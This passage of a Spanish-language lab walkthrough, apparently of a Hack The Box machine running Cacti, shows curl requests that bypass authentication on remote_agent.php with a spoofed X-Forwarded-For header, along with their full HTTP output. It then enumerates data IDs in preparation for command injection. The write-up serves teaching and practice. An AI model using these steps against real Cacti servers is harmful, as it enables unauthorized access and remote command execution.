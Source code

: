 ```python
            print("RRD not found")
    else:
        print("Not vulnerable")

```

Se ve sencillo, por lo que esto podemos hacerlo manual a través de curl. Agregando el header que se ve en el código (X-Forwarded-For) a una petición que haremos a la URL que se muestra en este PoC para verificar si es vulnerable, nos muestra datos:

```bash
❯ curl -v -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php?action=polldata&poller_id=1&host_id=1&local_data_ids[]=1"
*   Trying 10.10.11.211:80...
* Connected to 10.10.11.211 (10.10.11.211) port 80 (#0)
> GET /remote_agent.php?action=polldata&poller_id=1&host_id=1&local_data_ids[]=1 HTTP/1.1
> Host: 10.10.11.211
> User-Agent: curl/8.1.2
> Accept: */*
> X-Forwarded-For: 127.0.0.1
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 29 Aug 2023 22:17:04 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 54
< Connection: keep-alive
< X-Powered-By: PHP/7.4.33
< Last-Modified: Tue, 29 Aug 2023 22:17:04 GMT
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: default-src *; img-src 'self'  data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self'  'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
< P3P: CP="CAO PSA OUR"
< Cache-Control: no-store, no-cache, must-revalidate
< Set-Cookie: Cacti=593834cae6aec1b282bb8814de123a97; path=/; HttpOnly; SameSite=Strict
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Pragma: no-cache
< 
* Connection #0 to host 10.10.11.211 left intact
[{"value":"23","rrd_name":"proc","local_data_id":"1"}]
```

Vale, nos hemos saltado (en parte) la autenticación con un header, pero ahora para abusar de la inyección de comandos necesitamos una RRD (Round Robin Database) que sea de tipo `pollertime` o `uptime`; tendremos que hacer algo de fuerza bruta a los valores `local_data_id` y `host_id` para hayar alguno, al hacerlo veremos que el `local_data_id` 6 tiene lo que queremos

```bash
❯ curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php?action=polldata&poller_id=1&host_id=1&local_data_ids[]=6" | jq
[
  {
    "value": "0",
    "rrd_name": "uptime",
    "local_data_id": "6"
  }
]
```
